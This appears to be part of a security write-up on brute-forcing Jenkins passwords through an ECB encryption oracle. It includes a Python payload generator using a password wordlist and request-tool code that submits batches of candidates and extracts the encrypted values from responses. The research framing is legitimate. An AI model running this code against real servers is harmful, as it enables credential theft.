 ## Extras

It is also possible for an attacker to deduce a range for the length of the password. If the encrypted value is one block long (16 bytes), then it means the password length is 16 - len(magic) - 1 = 3 at most. The -1 reflects that if the string is exactly 16 bytes long, an extra padding block will be generated. In the same idea, if the encrypted password is 32 bytes long, the length of the original password will be between 3 and 18 bytes, etc.

Since the encryption is using ECB mode, it is possible to optimise the brute force attack by submitting multiple test passwords in one form validation. To do so, one needs to format the password with the magic suffix and expected padding. In this case, we will not be able to test a password whose length implies a padding with \x0a or \x0d (as it will be interpreted as a new line). So, passwords of length 6 and 9 are out for now. Here is a python script to generate such payloads, based on John's passwords.lst:

```python
#!/usr/bin/env python

import struct

def pkcs7(s, l):
  p = l - (len(s) % l)
  return s + struct.pack('B', p) * p

def magic_and_pad(x):
  p = pkcs7(x + "::::MAGIC::::", 32)
  assert len(p) == 32
  return p

def chunks(l, n):
  for i in xrange(0, len(l), n):
    yield l[i:i+n]

pwds = open("password.lst").read().splitlines()
pwds = [ x for x in pwds if len(x) not in [6,9] and len(x)<18 ]
padded_pwds = [ magic_and_pad(x) for x in pwds ]

cks = chunks(padded_pwds, 2048)
payloads["jenkins_pwds"] = [ e("".join(ipwds)) for ipwds in cks ]
With a bit of Burst magic:

# This is the encrypted password we want to match
target = d64("xBAR539h6d4GA5YZNy1foPoNRXnGR/4VaDrvW/4hydg=")

# Use the passwords list we generated
irs_post = i(r1, at="HERE", payloads="jenkins_pwds", pre_func=lambda x:x)

# We need to do another GET to retrieve the result of the encryption
irs_get = RequestSet([r0.copy() for i in range(len(irs_post))])

# Interleave the POST and GET requests
# See itertools roundrobin recipe
irs = RequestSet(list(roundrobin(irs_post, irs_get)))

# Run them
irs()

# Regex to retrieve the encrypted password from the response
ex = re.compile(r'<input name="_.password" value="(.*?)"')

# Extract and concatenate all the encrypted passwords
# [:-16] is here to drop the legitimate padding for the final block
encrypted_passwords = "".join([ d64(ex.findall(a.response.content)[0])[:-16] for a in irs_get ])

```